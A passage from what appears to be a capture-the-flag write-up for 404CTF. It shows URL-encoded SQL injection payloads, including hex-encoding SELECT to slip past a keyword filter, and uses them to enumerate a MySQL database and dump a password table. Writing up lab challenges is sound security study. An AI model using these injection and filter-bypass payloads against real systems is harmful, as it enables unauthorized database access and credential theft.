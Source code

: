 We have our next flags:
- 404CTF{2022-07-14}
- 404CTF{01hDuMatin}

But we're still missing the password. Let's dump the databases here as well:
```
1%27%20or%201=1%20UNION%20SELECT%201,GROUP_CONCAT(SCHEMA_NAME)%20from%20INFORMATION_SCHEMA.SCHEMATA--%20-
```
```
Attaque détectée : SELECT utilisé
```

We can also encode the `SELECT` statement in hexadecimal (`%53%45%4c%45%43%54`) like so and get nothing, but we clearer the error!
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201--%20-
```

After increasing the number of requested columns, we get something with 3 columns and we can verify we can inject
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,3--%20-
```
```
Code                Date                Heure
OpérationEpervier   2021-11-02          19h
OpérationMouette    2021-09-14          19h
OpérationFaucon     2022-01-01          20h
OpérationGorfou     404CTF{2022-07-14}  404CTF{01hDuMatin}
1                   2                   3
```

And we can verify we can inject in one of the fields we're controlling:
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,version()--%20-
```
```
1	2	8.0.29
```

We can use it to dump the MySQL databases:
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,GROUP_CONCAT(SCHEMA_NAME)%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-
1	2	information_schema,RencontreVendeurs
```
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,GROUP_CONCAT(TABLE_NAME)%20FROM%20INFORMATION_SCHEMA.TABLES%20where%20TABLE_SCHEMA='RencontreVendeurs'--%20-
1	2	Password,Rdv
```
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,GROUP_CONCAT(COLUMN_NAME)%20FROM%20INFORMATION_SCHEMA.COLUMNS%20where%20TABLE_SCHEMA='RencontreVendeurs'%20and%20TABLE_NAME='Password'--%20-
1	2	id,mdp
```
```
1%27%20or%201=1%20UNION%20%53%45%4c%45%43%54%201,2,GROUP_CONCAT(id,mdp)%20FROM%20RencontreVendeurs.Password--%20-
1	2	1d7uA9kYU3,25qKrD4F7p,3SXq3rZ35v,456FGp4Q93tk,472qJB5y45Xe,7456404CTF{GorfousAuPouvoir},7865S5eN2p5Wj,16579T3h98HdFy
```
